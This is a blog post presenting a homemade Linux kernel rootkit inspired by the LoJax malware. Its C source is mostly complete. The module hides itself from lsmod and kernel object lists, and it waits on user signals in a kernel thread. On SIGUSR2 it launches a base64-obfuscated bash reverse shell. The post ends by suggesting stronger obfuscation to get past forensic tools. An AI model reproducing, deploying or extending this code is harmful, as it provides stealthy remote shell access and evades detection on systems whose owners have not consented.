


In this post, I'm going to explain the idea behind this module, its applications, and some interesting things I discovered while working on it. Then, I'll show you a PoC of this file, followed by some additional considerations and some few upgrades I think could be interesting to implement.

## Before things went downhill

Chronologically, this module is the first piece of "malware" I've created — although it's not really malware, but more of a file meant to achieve persistence. Still, I was excited about showing the RAT.

Leaving aside this small intro to the post, let's dive into why and how this came to be.

A couple of months ago, I was looking into some of the craziest APTs and came across APT28, specifically their LoJax tool. If you haven't heard of it, that's perfectly normal — LoJax is software used to maintain remote access on target systems. On [MITRE](https://attack.mitre.org/software/S0397/), there's a [document](https://web-assets.esetstatic.com/wls/2018/09/ESET-LoJax.pdf) that explains how it works.

It got me thinking. After doing some research, I found out that the file runs during boot — but on Windows. Back then, I hadn't really worked much with Windows APIs, so I decided to try something similar on Linux.

That's where I ran into my second problem: I didn't know much about UEFI. After exploring several ways to build a kernel module for persistence, I came to the conclusion that I needed a module that:

1. Could stay hidden
2. Had some kind of “beacon” or access point to retrieve a shell
3. Gave the person some way to execute commands    

To make all this work, I'm going to use signals, kernel threads, and the kernel module itself.

## How the Code Works

This time, I won't explain every line of code — instead, I'll just describe what each block does to avoid getting too specific — because I think it would be better if some of the things that aren't immediately clear in the code (whether they're about structures or the module itself) were looked up in a Linux module guide. Back then, I checked out [this one](https://sysprog21.github.io/lkmpg/), but there are plenty of others that will probably work just as well for you.

### Code Analysis

The first part we find in the code (apart from the libraries we need to import) is some of the module's global variables, among which we can find both the environment variables and the variable responsible for storing the state that stops the program.

```c
static int stop_signal = 0;
static char *envp[] = { "HOME=/", "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/snap/bin"};
```

Next, we come across the block that allows us to create a connection. We simply call the `call_usermodehelper()` function and pass in the arguments we defined earlier. Among them is the command, which is essentially a reverse shell encoded in base64 (I've included the payload below so you can see what it does).

IMPORTANT NOTE: We can use the `"UMH_NO_WAIT"` parameter in the `usermodehelper` function to avoid errors when the connection ends.

```c
static void send_message_printk_kernel(void){
    printk(KERN_INFO "[system-health] Signal SIGUSR2.\n");
    char *argv[] = { "/bin/bash", "-c", "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTAyNSAwPiYx | base64 -d | bash", NULL};
    call_usermodehelper(argv[0], argv, envp, UMH_NO_WAIT);
}
```

![[Pasted image 20250510143149.png]]

The next block of code is a bit more complex. First, we make the SIGUSR1 and SIGUSR2 signals available to be read. Then, we have an "infinite" loop that checks whether the stop variable has been activated, so that if it is, the program stops. With this in place, we start iterating until we find a signal in the signal queue. When the received signal is the one we're expecting (this can be done with a program, but I was doing it manually using the `kill -SIGUSRx <PID>` command to send the signals), it reads it and, depending on which signal we receive, either stops the module and thread, or simply runs the reverse shell part.

One important thing to note is the use of `flush_signals()`, which is there to clear the signal queue. If you want to know a bit more about this, I'll leave a section at the very end where I explain, roughly, how I understood it. Finally, if we exit the loop, it means we've sent a SIGUSR1 signal to stop the program.

```c
static int test_loop(void *data) {
    allow_signal(SIGUSR1);
    allow_signal(SIGUSR2);

    while (!kthread_should_stop()) {
        if (stop_signal || signal_pending(current)) {
            if (sigismember(&current->signal->shared_pending.signal, SIGUSR1) == 1){
                printk(KERN_INFO "[system-health] Signal SIGUSR1.\n");
                printk(KERN_INFO "[system-health] Signal received, stopping thread...\n");
                break;
            }else if (sigismember(&current->signal->shared_pending.signal, SIGUSR2) == 1){
                send_message_printk_kernel();
            }
            flush_signals(current);
        }
        ssleep(5);
    }

    printk(KERN_INFO "[system-health] Deleting module...\n");
    stop_signal = 0;
    module_put(THIS_MODULE);
    return 0;
}
```

This piece of code is used to send a stop signal to the thread. In addition, we need to add a new variable outside of the functions because we need it to be visible to all of them in order to manage information related to the thread.

```c
static void send_stop_signal(void) {
    if (task) {
        send_sig(SIGUSR1, task, 1);
        stop_signal = 1;
    }
}
```

We use this function to remove the module from the kernel's "basic" information lists — for example, if we run `lsmod`, this module won't be listed.

`NOTE: Something to keep in mind is that we won't be able to manually remove the module when we no longer want it. We place blind trust in the fact that the module "isn't there" once we send a SIGUSR1 signal.`

```c
static void hide_module(void) {
    list_del(&THIS_MODULE->list);
    kobject_del(&THIS_MODULE->mkobj.kobj);
    printk(KERN_INFO "[system-health] Hidden module.\n");
}
```

Next, we have the function that runs right when the module is loaded (we can tell because it uses the `__init` attribute). Here, we simply start the thread, give it a name, and hide it using the function we mentioned earlier.

```c
static int __init systemhealth_init(void) {
    printk(KERN_INFO "[system-health] Module loaded.\n");

    task = kthread_run(test_loop, NULL, "system-health");
    if (IS_ERR(task)) {
        printk(KERN_ERR "[system-health] Error creating the thread\n");
        return PTR_ERR(task);
    }

    hide_module();
    return 0;
}
```

This function is used to shut down the module. We stop the thread if it's still running.

```c
static void __exit systemhealth_exit(void) {
    printk(KERN_INFO "[system-health] Deleting module...\n");

    send_stop_signal();

    if (task) {
        kthread_stop(task);
        printk(KERN_INFO "[system-health] Thread stopped successfully.\n");
    }
}
```

`IMPORTANT NOTE: Don't forget to include some of the required kernel functions for everything to work, like "module_init" and "module_exit". Also, it's highly recommended to include the "LICENSE" line, since in some cases, accessing certain kernel functionalities requires declaring that the module is under a "GPL" license.`

```c
[...]
MODULE_LICENSE("GPL");
[...]
```

## Proof of Concept

To do this, we simply compile it using the typical Makefile we usually find or use for these kinds of modules.



Once started with the `insmod system-health.ko` command, we can see that it has created a thread, which appears as a separate process, different from a typical one. Finally, we can carry out the steps we mentioned earlier regarding the thread.



## Some Improvements and Additional Considerations

This module is fairly simple and can end up creating a rather "impractical" form of persistence, since by itself it doesn’t serve much purpose beyond privilege escalation. You’d typically need help from other files to, for example, create a backdoor that would later allow you to establish persistence as the root user.

Even so, I think it’s a module that looks quite promising and could be useful in certain cases. While working on it, I was left wanting to improve a few aspects of the module, including:

- Creating an encryption system for data transmission.
- Further obfuscating the code to avoid detection by forensic tools.
- Removing all lines that print to `dmesg` (such as `printk`, which I mostly used for debugging).
- Better encrypting the payload that runs the command through `call_usermodehelper()`.

## Final Thoughts

Although this module didn't quite follow the path I originally intended when I started looking into the LoJax software, I'm really satisfied with how I adapted my approach and shifted my perspective. I realized that trying to recreate software likely developed by people with far more knowledge and time than I have can turn out to be much more difficult and complex than I expected.

Still, it’s made me want to keep exploring more of these kinds of “shadow geniuses”.
